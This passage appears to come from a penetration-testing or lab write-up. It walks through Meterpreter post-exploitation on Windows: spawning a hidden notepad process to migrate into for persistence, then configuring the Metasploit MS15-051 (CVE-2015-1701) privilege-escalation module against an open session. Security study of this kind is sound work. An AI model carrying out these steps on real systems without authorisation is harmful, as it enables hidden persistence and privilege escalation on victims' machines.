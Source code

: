 ```xml
%>
-->
```
In order to stick around, we will spawn a process and migrate into it.  We will spawn something innocuous like calc or notepad:
```
# -H hides the process from view
execute -f "C:\Windows\System32\notepad.exe" -H
```
We can then list processes with ```ps``` or look at the output of the execute command:
![Migrating with meterpreter](screenshots/meterpreter_migrate.png)

We can see that our notepad process is PID 1576, so we can migrate into it with the migrate command.

Looking around for exploits, I stumbled across MS15-051 (CVE-2015-1701).  More information is available [here](https://www.rapid7.com/db/modules/exploit/windows/local/ms15_051_client_copy_image).

Since this is a privilege escalation, we need to use it in conjunction with an open meterpreter session.  
```
msf exploit(windows/local/ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows x86
```
Our meterpreter session is number 7:
```
msf exploit(windows/local/ms15_051_client_copy_image) > set session 7
session => 7
```
We also need to set the correct target.  If you run ```show targets```, you will see a list of targets.
The most appropriate one for this example is Windows x64 (Target 1):
```
msf exploit(windows/local/ms15_051_client_copy_image) > set target 1
target => 1
```
